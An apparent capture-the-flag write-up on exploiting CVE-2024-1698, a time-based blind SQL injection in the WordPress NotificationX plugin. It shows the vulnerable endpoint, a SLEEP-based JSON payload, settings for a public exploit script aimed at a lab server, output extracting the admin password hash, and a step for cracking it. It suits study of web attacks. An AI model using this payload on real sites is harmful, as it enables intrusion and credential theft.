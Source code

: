 # SQL Injection: CTF #8

## Tasks

#### You should start by collecting all the information you can from the website. In particular, and as in a previous challenge about Wordpress, discover versions of installed software.

- WordPress: v6.7.1 [1]
- NotificationX plugin: v2.8.1 [2]

#### You already know that we want to exploit a SQL injection vulnerability. Are there reported vulnerabilities in public databases and/or tools that allow you to automate the discovery and abuse of SQL injection vulnerabilities?

Yes, for example [CVE-2024-1698](https://nvd.nist.gov/vuln/detail/cve-2024-1698) states that the NotificationX plugin in all versions up to 2.8.2 are vulnerable to SQL injection. 

#### What is the vulnerable website endpoint, and how can an attack be carried out? How can the vulnerability be catalogued?

The vulnerable website endpoint is the 'type' parameter in a POST request to the /wp-json/notificationx/v1/analytics route.
An example of a vulnerable request can be the following content body [3]:
```json
{
  "nx_id": 1337,
  "type": "IF(LENGTH((select user_login from wp_users where id=1))=5,SLEEP(1),null)-- -",
}
```
Focusing on this specific SQL query, the time it takes to respond to the request will indicate if there is a user with id of 1 and a length of 5.
This is an example of a time-based blind SQL injection.


#### The attack will allow you to extract information from the server's database. In particular, you want to discover the administrator's password, but as good security standards dictate, it is not stored cleanly in the database, but only a hash of the original password is stored. For this server, and in more detail, what is the password storage policy?

A typical WordPress password hash is stored in the database in the following format:
```
$P$ BuRuB0Mi 3926H8h.hcA3pSrUPyq0o10
(A) (B)      (C)
```
- (A) The hash type identifier, which is always $P$ for WordPress.
- (B) The salt appended to the password before the hash is calculated.
- (C) The hash of the salted password.

This hash is in PHPass format, which uses MD5 under the hood. 

#### Is storing a hash of the password secure in the sense that it makes it impossible to recover the original password? This problem is very common not only in the case of vulnerabilities, but also in the case of data leaks. There are several ways to try to reverse hash functions for passwords and tools to automate the process.

In theory, if there is no way to deduce the original password from the hash, then the hash is considered secure. However, in this case, a normal computer can crack a MD5 hash in seconds using a brute force method.

## Vulnerability exploitation

1. Modify the exploit.py script from the exploit [3] to attack the server in question with a reasonable delay:
```python
# Sleep time for SQL payloads
delay = 1

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"
```

2. Run the exploit.py script and wait a few minutes.
```bash
$ python3 exploit.py 
Admin username length: 5
Admin username: a
Admin username: ad
Admin username: adm
Admin username: admi
Admin username: admin
Admin password hash: $
Admin password hash: $P
Admin password hash: $P$
Admin password hash: $P$B
Admin password hash: $P$Bu
Admin password hash: $P$BuR
Admin password hash: $P$BuRu
Admin password hash: $P$BuRuB
Admin password hash: $P$BuRuB0
Admin password hash: $P$BuRuB0M
Admin password hash: $P$BuRuB0Mi
Admin password hash: $P$BuRuB0Mi3
Admin password hash: $P$BuRuB0Mi39
Admin password hash: $P$BuRuB0Mi392
Admin password hash: $P$BuRuB0Mi3926
Admin password hash: $P$BuRuB0Mi3926H
Admin password hash: $P$BuRuB0Mi3926H8
Admin password hash: $P$BuRuB0Mi3926H8h
Admin password hash: $P$BuRuB0Mi3926H8h.
Admin password hash: $P$BuRuB0Mi3926H8h.h
Admin password hash: $P$BuRuB0Mi3926H8h.hc
Admin password hash: $P$BuRuB0Mi3926H8h.hcA
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3p
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pS
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSr
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrU
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUP
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPy
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o1
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
Admin password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
[*] Admin credentials found:
Username: admin
Password hash: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
```

3. Now with the hash, we have the hash of the password in PASSWD format:
```
admin:$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10
```

4. Use any password cracking tool (e.g., johnny) to crack the password hash:  
![Johnny example of cracking this CTF hash](./images/ctf8.png)


The flag is `flag{heartbroken}`.


---

[1] The WordPress version can be found in the source code:
  ```html
  <meta name="generator" content="WordPress 6.7.1">
  ```

[2] The NotificationX version can be found in the source code:
  ```html
  <script src="http://44.242.216.18:5008/wp-content/plugins/notificationx/assets/public/js/frontend.js?ver=2.8.1" id="notificationx-public-js"></script>
  ```

[3] The source of the SQL injection exploit: https://github.com/kamranhasan/CVE-2024-1698-Exploit
